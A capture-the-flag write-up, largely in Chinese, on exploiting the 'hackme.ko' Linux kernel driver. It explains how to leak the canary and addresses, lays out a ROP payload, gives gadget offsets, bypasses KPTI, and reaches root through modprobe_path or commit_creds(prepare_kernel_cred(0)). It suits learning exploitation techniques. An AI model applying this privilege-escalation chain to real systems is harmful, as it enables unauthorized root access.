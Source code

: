 #### 漏洞
hackme.ko是一个简单的内核驱动，在其read()和write()函数中，针对栈上变量的读/写存在越界。
开启了SMEP, SMAP,FG_KASLR，KPTI等保护。

#### 利用
可通过越界读，leak内核地址信息和栈cookie，并计算其他gadget的地址信息，通过越界写进行ROP.

通过覆写modprobe_path达到代码执行的目的。

绕过KPTI有两种方法，使用第二种：

- 使用信号处理函数，signal(SIGSEGV, foo)
- 使用KPTI Trampoline
从内核态返回用户态时，需要设置CR3寄存器已恢复用户态页表，调用swapgs交换内核和用户态的GS寄存器，然后执行iretq指令将之前压栈的IP/CS/eflags/sp/ss等寄存器弹出，恢复用户态调用时的寄存器上下文。

#### 攻击payload布局
```

  |-------------------|
  |                   |
  | padding(16 uls)   |
  |                   |
  |-------------------|
  |    Canary         |
  |-------------------
  |     \x00          |		rbx
  |-------------------|		
  |     \x00          |		r12
  |-------------------|
  |     \x00          |		rbp
  |-------------------|
  |   ROP Gadget1     |		return address = pop rax;ret
  |-------------------|
  |  0x782f706d742f   | 	/tmp/x to replace modprobe_path
  |-------------------|
  |   ROP Gadget2     |		pop rbx ; pop r12 ; pop rbp ; ret;
  |-------------------|
  |modeprobe_path addr|
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------|
  |   ROP Gadget3     |		mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------|
  | kpti trampoline   |
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------| 
  |      foo          |		iretq stack layout should be:IP|CS|RFLAGS|RSP|SS
  |-------------------|
  |       CS          |
  |-------------------|
  |       RFLAGS      |
  |-------------------|
  |       RSP         |
  |-------------------|
  |       SS          |
  |-------------------|
```
#### use commit_creds(prepare_kernel_cred(0)) to getshell

Steps to achieve this goal:
1. Leak address information from kernel to get the stack canary, kernel image base and other relevant address.
Because FG_KASLR is enabled, we need to get address of commit_creds() and prepare_kernel_cred() from  __ksymtab_commit_creds and __ksymtab_prepare_kernel_cred.

2. Use the arbitray-address-read gadgets to build a ROP chain to read the content(offset value) at ksymtab_commit_creds, and calculate kernel's commit_creds() address (commit_creds = ksystab_commit_creds + (int)offset)
3. Use the arbitray-address-read gadgets to build a ROP chain to read the content(offset value) at ksymtab_prepare_kernel_cred, and calculate kernel's prepare_kernel_cred() address (prepare_kernel_cred = ksystab_prepare_kernel_cred + (int)offset)
4. build ROP chain to call prepare_kernel_cred(0) in kernelspace and return to userspace
5. build ROP chain to call commit_creds(return-value-of-prepare_kernel_cred(0)) and return to userspace
6. spawn a root shell when returning to userspace

**Gadgets that are used:**
- AAR

imagebase + 0x4d11 : pop rax; ret

imagebase + 0x4aae : mov eax, dword ptr[rax + 0x10]; pop rbp; ret

- Pass Parameter

imagebase + 0x38a0 : pop rdi; pop rbp; ret

#### Some writeups of this challenge

https://zhangyidong.top/2021/02/10/kernel_pwn(fg_kaslr)/

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
